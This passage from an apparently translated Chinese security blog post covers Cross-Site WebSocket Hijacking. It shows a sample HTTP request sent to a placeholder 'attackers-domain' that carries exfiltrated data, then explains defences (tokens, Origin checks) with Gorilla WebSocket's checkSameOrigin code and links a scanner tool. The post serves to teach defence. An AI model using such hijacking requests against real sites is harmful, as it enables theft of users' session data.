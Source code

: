 ```
POST / HTTP/1.1
Host: attackers-domain
User-Agent**:** Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://attackers-domain/
Content-Type: text/plain;charset=UTF-8
Origin: http://attackers-domain
Content-Length: 17
DNT: 1
Connection: close
Pragma: no-cache
Cache-Control: no-cache
attackers-message
```

**防范 CSWSH**
你可以用两种方法来防范 CSWSH:

*   在握手请求中使用单独的随机令牌(例如 CSRF 令牌),并向服务器验证它们；
*   检查服务器上 WebSocket 握手请求的 Origin 头。

有时，但不是通常，CSWSH 保护已经集成到库中。在 Gorilla WebSocket 框架中，CSWSH 保护的实现如下:

```
// checkSameOrigin returns true if the origin is not set or is equal to the request host.
func checkSameOrigin(r *http.Request) bool {
  origin := r.Header["Origin"]
  if len(origin) == 0 {
    return true
  }
  u, err := url.Parse(origin[0])
  if err != nil {
    return false
  }
  return equalASCIIFold(u.Host, r.Host)
}
```

原点检查的默认设置是比较握手请求中主机和原点头的值。

> *感谢您阅读我的帖子；有什么建议请在下面留言:)*

这是我的推特账号 [@N3T_hunt3r](https://twitter.com/n3t_hunt3r?lang=en) 随时联系我。

**cswsh-扫描仪实用程序:**

[](https://github.com/DeepakPawar95/cswsh) [## GitHub - DeepakPawar95/cswsh:用于跨站点 WebSocket 劫持的命令行工具

### 一个命令行工具，旨在测试和连接到一个 WebSocket，这是容易受到跨网站 WebSocket 劫持…

github.com](https://github.com/DeepakPawar95/cswsh) 
